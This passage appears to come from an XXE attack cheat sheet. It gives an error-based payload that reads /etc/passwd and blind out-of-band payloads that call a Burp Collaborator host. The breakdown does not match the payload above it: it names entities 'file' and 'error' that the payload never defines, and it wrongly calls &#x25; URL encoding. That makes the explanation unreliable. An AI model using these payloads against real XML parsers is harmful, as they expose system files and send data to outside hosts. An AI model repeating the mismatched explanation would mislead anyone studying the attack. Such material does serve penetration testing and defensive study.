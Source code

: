 **Alternative content of ext.dtd**

```xml
<!ENTITY % data SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; leak SYSTEM '%data;:///'>">
%eval;
%leak;
```

Let's break down the payload:

1. `<!ENTITY % file SYSTEM "file:///etc/passwd">`
  This line defines an external entity named file that references the content of the file /etc/passwd (a Unix-like system file containing user account details).
2. `<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">`
  This line defines an entity eval that holds another entity definition. This other entity (error) is meant to reference a nonexistent file and append the content of the file entity (the `/etc/passwd` content) to the end of the file path. The `&#x25;` is a URL-encoded '`%`' used to reference an entity inside an entity definition.
3. `%eval;`
  This line uses the eval entity, which causes the entity error to be defined.
4. `%error;`
  Finally, this line uses the error entity, which attempts to access a nonexistent file with a path that includes the content of `/etc/passwd`. Since the file doesn't exist, an error will be thrown. If the application reports back the error to the user and includes the file path in the error message, then the content of `/etc/passwd` would be disclosed as part of the error message, revealing sensitive information.





## Exploiting Blind XXE to Exfiltrate Data Out of Band

Sometimes you won't have a result outputted in the page but you can still extract the data with an out of band attack.

### Basic Blind XXE

The easiest way to test for a blind XXE is to try to load a remote resource such as a Burp Collaborator.

```xml
<?xml version="1.0" ?>
<!DOCTYPE root [
<!ENTITY % ext SYSTEM "http://UNIQUE_ID_FOR_BURP_COLLABORATOR.burpcollaborator.net/x"> %ext;
]>
<r></r>
```

```xml
<!DOCTYPE root [<!ENTITY test SYSTEM 'http://UNIQUE_ID_FOR_BURP_COLLABORATOR.burpcollaborator.net'>]>
<root>&test;</root>
```

